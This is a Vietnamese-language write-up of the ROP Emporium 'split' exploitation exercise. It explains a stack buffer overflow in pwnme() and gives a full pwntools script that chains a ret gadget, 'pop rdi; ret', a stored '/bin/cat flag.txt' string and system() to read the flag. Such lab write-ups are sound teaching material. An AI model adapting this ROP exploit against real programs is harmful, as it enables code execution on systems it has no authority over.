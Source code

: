 # ROP_Emporium - split

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()

![pwnme.png](images/pwnme.png)

Còn có hàm usefulFunction()

![usefulFunction.png](images/usefulFunction.png)

Ở hàm pwnme() ta có thể thấy tại dòng thứ 8 cho phép ghi 0x60 ký tự vào biến **s** nhưng biến **s** chỉ được khai báo 0x20 bytes --> **Buffer Overflow**

# 2. Ý tưởng

Có thể thấy ở bài này không có hàm win nên ta không thể sử dụng ret2win, thay vào đó là hàm **system** và có sẵn string "/bin/cat flag.txt"
--> ROP_gadget

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Bởi vì địa chỉ của **return address** lớn hơn địa chỉ **biến nhập vào** 0x28 vì vậy ta chỉ việc tạo script để ghi đè saved rip thành ROP_chain khi đã có hàm system và chuỗi "/bin/cat flag.txt":

![string.png](images/string.png)

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./split', checksec=False)

p = process("./split")

#gdb.attach(p, gdbscript='''''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
system = elf.sym['system']
strings_cat_flag = elf.sym['usefulString']

payload = flat(
    cyclic(0x28),
    ret,
    pop_rdi_ret,
    strings_cat_flag,
    system
    )
p.sendlineafter(b">",payload)
p.interactive()

```
# Lưu ý:

Chúng ta cần thêm ret vào đầu ROP_chain vì:

![string.png](images/string.png)

# 4. Lấy flag

![flag.png](images/flag.png)


